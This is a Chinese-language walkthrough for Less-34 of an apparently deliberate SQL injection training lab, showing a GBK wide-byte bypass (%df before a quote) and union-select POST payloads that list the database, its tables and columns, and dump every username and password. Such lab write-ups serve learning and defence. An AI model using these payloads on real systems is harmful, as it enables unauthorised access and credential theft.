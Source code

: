 ```yaml
---
title: Less - 34
date: 2023-03-17T12:49:18Z
lastmod: 2023-03-17T13:26:23Z
---
```


# Less - 34

---

# 通关教程

---

## 1、判断闭合

---

先使用用户名和密码登录进去，如下

​![image](assets/image-20230317131055-n6rv8ok.png)​

在admin后面加上一个单引号发现被转义了

​![image](assets/image-20230317131214-9cz60e1.png)​

---

查看源代码可知确实使用了GBK编码，直接在单引号前面加上%df让单引号成功逃逸

​![image](assets/image-20230317131338-hh3bfyi.png)​通过错误信息判断闭合方式为’#，并且为字符型注入

---

## 2、查看数据库

---

```http
uname=a%df' union select 1,database()#&passwd=admin&submit=Submit
```

​![image](assets/image-20230317132024-bfr349l.png)​

---

## 3、查看security库下的所有表

---

```http
uname=a%df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database())#&passwd=admin&submit=Submit
```

​![image](assets/image-20230317132144-mwk7dxu.png)​

---

## 4、查看users表下的所有字段

---

```http
uname=a%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230317132530-3j6cz4k.png)​

---

## 5、查看username,password字段下的所有值

---

```http
uname=a%df' union select 1,(select group_concat(username,password) from security.users)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230317132607-v41lcas.png)​

‍
